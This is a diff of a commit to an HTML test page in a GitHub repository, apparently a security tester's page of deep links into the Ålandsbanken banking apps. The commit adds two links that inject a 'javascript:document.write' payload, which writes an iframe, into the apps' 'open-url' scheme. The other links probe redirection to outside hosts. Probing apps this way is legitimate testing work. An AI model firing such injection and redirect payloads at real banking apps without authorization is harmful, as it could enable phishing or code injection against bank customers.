

Before and after one commit to mathiashellsing/web-platform-rkefvk, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 290-1565 px from the top of the page at 85% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
added click event

```diff
--- a/index.html
+++ b/index.html
@@ -19,10 +19,11 @@
       <a href="alandsbanken://open-url?https://jp3.eu/aland">alandsbanken://open-url?https://jp3.eu/aland</a>
       <a href="alandsbanken://open-url">alandsbanken://open-url</a>
       <a href="twitter://user?screen_name=elonmusk">twitter://user?screen_name=elonmusk</a>
+      <a href='alandsbanken://open-url:javascript:document.write("<html><iframe src=
+        http://www.example.com></iframe></html>")'>click with js event</a>
       <h1>alandsbanken - ok?</h1>
       <a href="alandsbanken://open-url:https://open.alandsbanken.fi">alandsbanken://open-url:https://open.alandsbanken.fi</a>
       <a href="alandsbanken://open-url:open.alandsbanken.fi">alandsbanken://open-url:open.alandsbanken.fi</a>
-
       <a href="alandsbanken://open-url=https://open.alandsbanken.fi">alandsbanken://open-url=https://open.alandsbanken.fi</a>
       <a href="alandsbanken://open-url?https://open.alandsbanken.fi">alandsbanken://open-url?https://open.alandsbanken.fi</a>
       <a href="alandsbanken://open-url">alandsbanken://open-url</a>
@@ -33,6 +34,8 @@
       <a href="alandsbankensweden://open-url=https://jp3.eu/aland">alandsbankensweden://open-url=https://jp3.eu/aland</a>
       <a href="alandsbankensweden://open-url?https://jp3.eu/aland">alandsbankensweden://open-url?https://jp3.eu/aland</a>
       <a href="alandsbankensweden://open-url">alandsbankensweden://open-url</a>
+      <a href='alandsbankensweden://open-url:javascript:document.write("<html><iframe src=
+        http://www.example.com></iframe></html>")'>click with js event</a>
       <hr>
       <h1>alandsbanken - ok?</h1>
       <a href="alandsbankensweden://open-url:https://open.alandsbanken.se">alandsbankensweden://open-url:https://open.alandsbanken.se</a>
```
